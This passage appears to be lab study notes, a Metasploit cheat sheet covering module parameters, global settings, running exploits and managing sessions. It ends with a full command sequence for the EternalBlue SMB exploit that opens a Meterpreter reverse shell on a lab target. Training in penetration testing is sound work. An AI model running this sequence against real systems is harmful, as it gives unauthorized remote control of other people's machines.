 
## 3. Important Parameters

- **RHOSTS** → Target IP address (or a range)  
- **RPORT** → Target port (default 445 for SMB)  
- **LHOST** → Your attack machine IP  
- **LPORT** → Listening port on your machine (any free port, e.g., 4444)  
- **PAYLOAD** → The payload used with the exploit (e.g., reverse shell)  



## 4. Unset / Global Set

Unset a parameter:
``` bash
unset RHOSTS
unset all
```
Set globally (works across all modules):
``` bash
setg RHOSTS 10.10.165.39
unsetg RHOSTS
```


## 5. Running Exploits

Run normally:
``` bash
exploit
```
Run and background the session:
``` bash
exploit -z
```


## 6. Sessions

List active sessions:
``` bash
sessions
```
Interact with a session:
``` bash
sessions -i 1
```
Background a session:
``` bash
background
(or `CTRL+Z`)
```


## 7. Example Flow – EternalBlue Exploit
``` bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.165.39
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.44.70
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit -z
```
If successful, you will see:
``` bash
[*] Meterpreter session 1 opened ...
meterpreter >
```
Now you have full access to the target system 🚀
